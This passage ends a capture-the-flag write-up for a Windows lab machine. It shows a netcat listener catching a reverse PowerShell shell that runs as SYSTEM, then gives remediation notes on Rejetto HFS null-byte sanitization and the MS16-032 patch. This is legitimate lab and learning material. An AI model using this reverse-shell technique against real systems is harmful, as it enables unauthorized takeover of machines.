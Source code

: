 And on our listener:

```
kali@kali:~/Downloads$ sudo rlwrap nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.1.127 49383
Windows PowerShell running as user OPTIMUM$ on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\kostas\Desktop>whoami
nt authority\system
```


## Comparing to the official writeup:

The official writeup used the same exploits I did. They used metasploit the entire way. And it was fairly simple.

I am very happy that I decided to explore the exploits further. As it greatly increased my knowledge of powershell scripting, and a very cool windows exploit. As well as null bytes to exploit bad sanitization of input. 

## How to stop this exploit:

Make sure everything is updated. And make sure that the sanitization functions also account for null-bytes. This was fixed in Rejetto HFS Version 2.3c

The Windows exploit has a patch here: https://support.microsoft.com/en-hk/help/3143141/ms16-032-security-update-for-secondary-logon-to-address-elevation-of-p 
